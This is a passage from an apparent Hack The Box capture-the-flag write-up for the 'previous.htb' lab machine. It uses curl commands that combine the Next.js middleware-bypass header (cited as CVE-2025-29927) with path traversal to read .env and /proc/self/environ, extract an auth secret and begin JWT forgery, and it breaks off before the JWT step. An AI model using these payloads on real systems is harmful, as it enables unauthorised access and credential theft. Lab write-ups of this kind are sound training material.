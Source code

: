 
## Authentication & Middleware Bypass

## 3\. Exploiting CVE-2025–29927 (Next.js Auth Bypass)

Testing HTTP headers revealed that crafting the following allows bypass of custom Next.js middleware using the path traversal endpoint:

```plaintext
curl -s 'http://previous.htb/api/download?example=../../../../../../app/.env' \
 -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware'
```

* This header disables Next.js middleware enforcement on protected routes (CVE-2025–29927), allowing unauthenticated LFI to protected files.
    

## 4\. Sensitive Data Exfiltration

## Environment Leak

```plaintext
curl -s 'http://previous.htb/api/download?example=../../../../../../proc/self/environ' \
 -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' | tr '\0' '\n'
```

Critical variables:

* `PWD=/app`
    
* `HOME=/home/nextjs`
    
* `NODE_VERSION=18.20.8`
    
## Extracting Authentication Secret

```plaintext
curl -s 'http://previous.htb/api/download?example=../../../../../../app/.env' \
 -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware'
```

* Extracted: `NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a`
    

## JWT Forgery for Privilege Escalation

## 5\. Crafting a Valid JWT for NextAuth

Observation: Standard JWT with only name/email rejected by /api/download (needed specific claims: sub, iat, exp).

One-liner for a valid JWT:
